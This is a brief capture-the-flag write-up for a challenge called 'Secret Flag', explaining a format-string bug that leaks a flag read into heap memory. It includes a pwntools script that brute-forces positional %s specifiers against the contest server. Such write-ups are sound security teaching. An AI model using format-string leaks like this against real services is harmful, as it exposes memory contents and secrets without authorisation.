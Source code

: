 # Secret Flag

From the desc we know it's a format string. There's no symbol for main, so i opened it up in radare2.

It opens mallocs a heap address, stores it on the stack, opens `flag.txt`, and reads it to that heap address. We can use the format specifier %s to read the flag by referencing this heap address.

I didn't bother actually calculating the offset and just bruteforced it.

```python
from pwn import *
for i in range(30):
    tosend = f"%{i}$s"
    p = remote('2020.redpwnc.tf', 31826)
    p.recvlines(2)
    p.sendline(tosend)
    try:
        print(p.recvline())
    except:
        pass
    p.close()
```

